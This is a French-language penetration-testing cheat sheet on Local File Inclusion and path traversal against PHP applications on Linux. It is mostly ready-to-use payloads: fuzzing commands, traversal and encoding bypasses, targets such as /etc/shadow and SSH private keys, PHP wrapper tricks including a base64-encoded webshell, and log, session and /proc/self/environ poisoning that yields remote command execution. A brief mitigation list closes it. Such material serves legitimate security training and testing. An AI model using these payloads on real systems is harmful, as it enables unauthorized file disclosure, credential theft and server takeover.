

Cette documentation détaille les vecteurs d'attaque liés à la **LFI** (Local File Inclusion) et au **File disclosure**, en complément des concepts de **Path Traversal** et de **Webshells** sur les systèmes **Linux**.



## Identification de la vulnérabilité (Fuzzing)

L'identification repose sur l'injection de caractères de contrôle et de séquences de traversée de répertoire pour observer le comportement de l'application.

```bash
ffuf -w /opt/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://target.com/index.php?page=FUZZ' -fs 0
```

## Fichiers Sensibles à Lire

### Linux
> [!danger] /etc/shadow nécessite des privilèges root
> L'accès à ce fichier est conditionné par les permissions du processus web.

| Cible | Chemin |
| :--- | :--- |
| Configuration système | `/etc/passwd`, `/etc/shadow`, `/etc/hostname`, `/etc/issue`, `/etc/group`, `/etc/hosts` |
| Clés SSH | `/root/.ssh/id_rsa`, `/home/user/.ssh/id_rsa`, `/root/.ssh/authorized_keys` |
| Configuration Web | `/etc/apache2/apache2.conf`, `/etc/nginx/nginx.conf`, `/var/www/html/config.php` |
| Logs | `/var/log/apache2/access.log`, `/var/log/nginx/access.log`, `/var/log/auth.log` |

## Path Traversal

Technique visant à sortir du répertoire racine de l'application via des séquences de navigation.

```text
?page=../../../../etc/passwd
?page=....//....//etc/passwd
?page=..././..././etc/passwd
```

## Techniques de Null Byte (obsolètes mais utiles en legacy)

> [!note] Le null byte (%00) ne fonctionne plus sur les versions PHP >= 5.3.4
> Cette technique est considérée comme legacy.

Dans les anciennes versions de PHP, l'ajout d'un caractère nul permettait de tronquer la chaîne de caractères pour ignorer l'extension ajoutée par le développeur.

```text
?page=/etc/passwd%00
```

## Bypass de Filtrage

### Encodage
L'utilisation de l'encodage peut contourner les filtres de caractères simples.

```text
?page=%2e%2e%2f%2e%2e%2fetc%2fpasswd
?page=%252e%252e%252f%252e%252e%252fetc%252fpasswd
```

### Bypass de caractères
Si le caractère `/` est filtré, le remplacement par `\` peut être tenté sur certains environnements.

```text
?page=....\/....\/etc\/passwd
```

## Bypass d’Extension .php

Si l'application force l'extension `.php` :

```text
?page=/etc/passwd/
```

### Wrappers PHP
> [!tip] Toujours tester les wrappers PHP pour lire le code source des fichiers .php
> Le wrapper **php://filter** permet d'encoder le contenu avant l'affichage.

```text
?page=php://filter/convert.base64-encode/resource=/etc/passwd
?page=php://filter/convert.base64-encode/resource=index.php
```

Décodage de la sortie :
```bash
echo "BASE64_OUTPUT" | base64 -d
```

## Wrapper php://input (RCE)

Permet d'injecter du code PHP directement via le corps de la requête HTTP. Nécessite `allow_url_include=On`.

```text
?page=php://input
```
*Requête POST associée :*
```php
<?php system('id'); ?>
```

## Wrapper data:// (RCE)

Permet d'inclure des données encodées en base64. Utile pour exécuter des payloads sans fichier sur le disque.

```text
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ID8+&cmd=id
```

## Inclusion via les Logs

> [!danger] L'injection via les logs peut corrompre les fichiers de logs et alerter les administrateurs
> Cette technique nécessite que le processus web ait les droits de lecture sur les fichiers de logs.

Injection de code PHP dans les logs :
```bash
echo "<?php system(\$_GET['cmd']); ?>" | nc -nv TARGET_IP 80
```

Lecture via LFI :
```text
?page=/var/log/apache2/access.log&cmd=id
```

## LFI + RCE via PHP Sessions

Si l'application stocke des données utilisateur dans des fichiers de session, il est possible d'y injecter du code.

1. Création de la session :
```bash
curl -X GET "http://target.com/?param=<?php system(\$_GET['cmd']); ?>"
```

2. Inclusion du fichier de session :
```text
?page=/var/lib/php/sessions/sess_<SESSION_ID>&cmd=id
```

## Utilisation de /proc/self/environ

Sur des systèmes anciens, le fichier `/proc/self/environ` peut contenir des variables d'environnement modifiables via l'en-tête **User-Agent**.

```http
GET /?page=/proc/self/environ HTTP/1.1
User-Agent: <?php system($_GET['cmd']); ?>
```

## Protection & Mitigation

*   Utilisation de listes blanches (whitelists) pour les fichiers autorisés.
*   Éviter l'utilisation directe de variables utilisateur dans les fonctions `include()` ou `require()`.
*   Application de permissions système strictes sur les fichiers sensibles.
*   Désactivation des directives **allow_url_include** et **allow_url_fopen** dans le fichier `php.ini`.